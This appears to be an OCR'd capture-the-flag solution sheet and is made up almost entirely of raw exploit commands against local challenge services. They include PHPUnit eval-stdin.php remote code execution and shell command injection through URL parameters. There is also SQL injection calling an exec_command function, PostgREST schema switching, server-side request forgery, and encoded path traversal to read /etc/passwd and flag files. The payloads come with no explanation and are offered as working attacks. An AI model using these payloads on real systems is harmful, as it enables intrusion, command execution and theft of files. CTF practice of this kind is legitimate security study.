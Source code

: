 curl -v http://127.0.0.1/log-api/app/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php -d '?><?php system("cat /usr/share/flag-ne/flag.txt");'
curl -v http://127.0.0.1/api/rpc/exec_command?cmd=cat%20/usr/lib/include/flag_ne/flag.txt
http://127.0.0.1/mathsays.html?t=%24(cat%20%2Fflag%2Fflag.txt)

Free-Chat
' || (select public."exec_command"('ls /')) || '

Postgrest
curl -v http://127.0.0.1/api/ -H 'Accept-Profile: a'

curl -v http://127.0.0.1/api/ -H 'Accept-Profile: extensions' | jq

curl -v 'http://127.0.0.1/api/rpc/http_get?uri=http://1.1.1.1' -H 'Accept-Profile: extensions'

curl -v 'http://127.0.0.1/api/rpc/http_get?uri=http://php/cgi-bin/.%252e%2F%252e%252e%2F%252e%252e%2F%252e%252e%2F%252e%252e%2F%252e%252e%2F%252e%252e%2F%252e%252e%2F%252e%252e%2F%252e%252e%2Fetc%2Fpasswd' -H 'Accept-Profile: extensions' 